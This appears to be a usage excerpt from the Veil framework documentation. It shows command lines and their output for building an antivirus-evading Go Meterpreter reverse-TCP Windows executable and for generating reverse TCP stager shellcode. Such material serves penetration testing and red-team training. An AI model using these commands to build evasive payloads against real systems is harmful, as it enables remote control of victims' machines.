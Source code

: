 ```bash
$
```

**Veil Evasion CLI**

```bash
$ ./Veil.py -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

runtime/internal/sys
runtime/internal/atomic
runtime
errors
internal/race
sync/atomic
math
sync
io
unicode/utf8
internal/syscall/windows/sysdll
unicode/utf16
syscall
strconv
reflect
encoding/binary
command-line-arguments
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [*] Language: go
 [*] Payload Module: go/meterpreter/rev_tcp
 [*] Executable written to: /var/lib/veil/output/compiled/payload.exe
 [*] Source code written to: /var/lib/veil/output/source/payload.go
 [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/payload.rc
$
$ file /var/lib/veil/output/compiled/payload.exe
/var/lib/veil/output/compiled/payload.exe: PE32 executable (GUI) Intel 80386 (stripped to external PDB), for MS Windows
$
```

**Veil Ordnance CLI**

```bash
$ ./Veil.py -t Ordnance --ordnance-payload rev_tcp --ip 127.0.0.1 --port 4444
===============================================================================
                                   Veil-Ordnance
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [*] Payload Name: Reverse TCP Stager (Stage 1)
 [*] IP Address: 127.0.0.1
 [*] Port: 4444
 [*] Shellcode Size: 287

```